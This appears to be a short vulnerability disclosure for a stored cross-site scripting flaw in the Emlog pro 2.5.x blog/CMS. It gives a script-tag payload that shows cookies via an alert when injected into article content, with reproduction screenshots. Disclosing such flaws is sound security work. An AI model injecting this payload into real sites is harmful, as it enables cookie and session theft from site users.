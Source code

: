 # Emlog pro introduce

EMLOG is a lightweight open-source blog and CMS website building system that is fast, resource efficient, and easy to use, suitable for building websites of all sizes.
Project address： https://github.com/emlog/emlog
### The affected version

emlog pro 2.5.x

## Vulnerability description

Storage type XSS

## Vulnerability recurrence

Publish article content and inject malicious XSS

```
test
<script>alert(document.cookie)</script>
```

![image-20250301145217619](https://cdn.jsdelivr.net/gh/bGl1o/Pictures@img/202503011456382.png)

Click Review article

![image-20250301145622391](https://cdn.jsdelivr.net/gh/bGl1o/Pictures@img/202503011456753.png)![image-20250301145624749](./emlog-xss.assets/image-20250301145624749.png)

![image-20250301145626230](https://cdn.jsdelivr.net/gh/bGl1o/Pictures@img/202503011456003.png)
